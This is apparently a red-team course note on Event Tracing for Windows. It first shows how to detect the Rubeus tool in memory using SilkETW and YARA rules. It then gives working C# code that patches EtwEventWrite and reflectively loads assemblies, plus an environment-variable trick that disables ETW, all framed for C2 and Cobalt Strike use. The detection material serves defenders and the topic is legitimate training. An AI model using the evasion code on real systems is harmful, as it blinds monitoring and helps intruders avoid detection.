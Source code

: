 Event Tracing for Windows (ETW) provides a mechanism to trace and log events that are raised by user-mode applications.  [SilkETW](https://github.com/mandiant/SilkETW) takes most of the pain out of consuming ETW events for a wide array of offensive and defensive purposes.  It's next largest strengths (in my view) are the formats it can output to (URL, Windows Event Log, JSON) and it's integration with [YARA](https://virustotal.github.io/yara/).

A popular use case for it is to provide .NET introspection - that is, to detect .NET assemblies in memory.  Let's explore ways to detect Rubeus in-memory...

  

When a .NET assembly is loaded, the Microsoft-Windows-DotNETRuntime provider produces an event called `AssemblyLoad`.  The data contained is the fully qualified name of the assembly.

C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -f EventName -fv Loader/AssemblyLoad

███████╗██╗██╗   ██╗  ██╗███████╗████████╗██╗    ██╗
██╔════╝██║██║   ██║ ██╔╝██╔════╝╚══██╔══╝██║    ██║
███████╗██║██║   █████╔╝ █████╗     ██║   ██║ █╗ ██║
╚════██║██║██║   ██╔═██╗ ██╔══╝     ██║   ██║███╗██║
███████║██║█████╗██║  ██╗███████╗   ██║   ╚███╔███╔╝
╚══════╝╚═╝╚════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚══╝╚══╝
                  [v0.8 - Ruben Boonen => @FuzzySec]

[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 6

  

Whilst SilkETW is running, execute `C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe`.  Review the JSON file and we see the following entries: `"FullyQualifiedAssemblyName":"Rubeus, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null"`

Based on this we can create a YARA rule.  Save this to `C:\Users\Administrator\Desktop\YARA\rubeus.yara`.

rule Rubeus_FullyQualifiedAssemblyName
{
    strings:
        $fqan = "Rubeus, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" ascii nocase wide
    condition:
        $fqan
}

  

Run SilkETW again, but provide the `-y` and `-yo` options for YARA.  Execute Rubeus again and the rule should trigger.

C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -f EventName -fv Loader/AssemblyLoad -y C:\Users\Administrator\Desktop\YARA -yo Matches

[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 8
     -> Yara match: Rubeus_FullyQualifiedAssemblyName

  

The `Loader/ModuleLoad` event will show modules that have been loaded by an assembly.  Applications that have been compiled as Debug will attempt to load its associated PDB database.  In this case we'd see `"ManagedPdbBuildPath":"C:\\Tools\\Rubeus\\Rubeus\\obj\\Debug\\Rubeus.pdb"` in the JSON output.

We can add another YARA rule to the file to search for `"Rubeus.pdb"` and run again.

rule Rubeus_ProgramDatabase
{
    strings:
        $pdb = "Rubeus.pdb" ascii nocase wide
    condition:
        $pdb
}

C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -y C:\Users\Administrator\Desktop\YARA -yo Matches

[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 596
     -> Yara match: Rubeus_FullyQualifiedAssemblyName
     -> Yara match: Rubeus_ProgramDatabase

  

IL (intermediary language) stubs are dynamically generated by the CLR (common language runtime).  They handle the marshalling and invocation of native methods (ala P/Invoke) and can therefore be used to find assemblies using interop to access unmanaged code.  We can filter on these with `-fv ILStub/StubGenerated`.

From that, we'll see namespaces such as `Rubeus.Interop/TOKEN_INFORMATION_CLASS` and `Rubeus.Interop/LSA_STRING`.

rule Rubeus_Interop
{
    strings:
        $tic = "Rubeus.Interop/TOKEN_INFORMATION_CLASS" ascii nocase wide
        $lsa = "Rubeus.Interop/LSA_STRING" ascii nocase wide
    condition:
        any of them
}

C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -y C:\Users\Administrator\Desktop\YARA -yo Matches

[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 664
     -> Yara match: Rubeus_FullyQualifiedAssemblyName
     -> Yara match: Rubeus_ProgramDatabase
     -> Yara match: Rubeus_Interop

  

An interesting note is that just running `Rubeus.exe` will not trigger the `Rubeus_Interop` rule.  Because the assembly did not execute any code that uses interop, the no IL stubs were generated that would trigger it. `Rubeus.exe klist` will trigger the rule.

  

---

  

If executing an exe on disk from a shell, the easiest (and most ridiculous) way to disable ETW events is to set the `COMPlus_ETWEnabled` environment variable to `0`.

![[45. Event Tracing for Windows (ETW).png]]

To disable ETW in code, we can take a cue from the popular [in-memory patching technique](https://rastamouse.me/memory-patching-amsi-bypass/) to disable AMSI.  Advapi32.dll exports an API called **EventWrite** which forwards to **EtwEventWrite** in ntdll.dll.  We can patch instructions in memory at one of these locations to prevent the API writing events.

Consider the following boilerplate code:

// pretend this is coming down a C2 as a byte[]
var bytes = File.ReadAllBytes(@"C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe");

// load the assembly
var assembly = Assembly.Load(bytes);

// invoke its entry point with arguments
assembly.EntryPoint.Invoke(null, new object[] { args });

  

Prior to loading the assembly, we'd like to locate one of those APIs (let's go with the lower-level EtwEventWrite) and write a `RET` at the beginning.

  A simple RET works fine for x64, but if on x86 you will need to adjust the stack first.

  

The high level steps are as follows:

-   Get the memory address of ntdll in the current process.
-   Get the memory address of EtwEventWrite from ntdll.
-   Make that region of memory writeable
-   Copy the patch
-   Restore the memory permissions

  

// get location of ntdll.dll
var hModule = LoadLibrary("ntdll.dll");
Console.WriteLine("ndtll: 0x{0:X}", hModule.ToInt64());

// find EtwEventWrite
var hfunction = GetProcAddress(hModule, "EtwEventWrite");
Console.WriteLine("EtwEventWrite: 0x{0:X}", hfunction.ToInt64());

var patch = new byte[] { 0xC3 };

// mark as RW
VirtualProtect(hfunction, (UIntPtr)patch.Length, 0x04, out var oldProtect);
Console.WriteLine("Memory: 0x{0:X} -> 0x04", oldProtect);

// write a ret
Marshal.Copy(patch, 0, hfunction, patch.Length);

// restore memory
VirtualProtect(hfunction, (UIntPtr)patch.Length, oldProtect, out _);
Console.WriteLine("Memory: 0x04 -> 0x{0:X}", oldProtect);

![[46. Event Tracing for Windows (ETW).png]]


**LoadLibrary** and **GetProcAddress** are native APIs that you must P/Invoke.  If you want to give it a try with D/Invoke, take a look at `Generic.GetLibraryAddress()`.

Where Cobalt Strike does have an `amsi_disable` directive in Malleable C2, it has no equivalent like "etw_disable".  The most viable way to integrate this style of ETW patching with execute-assembly, is via a user defined reflective loader (discussed in a later module).

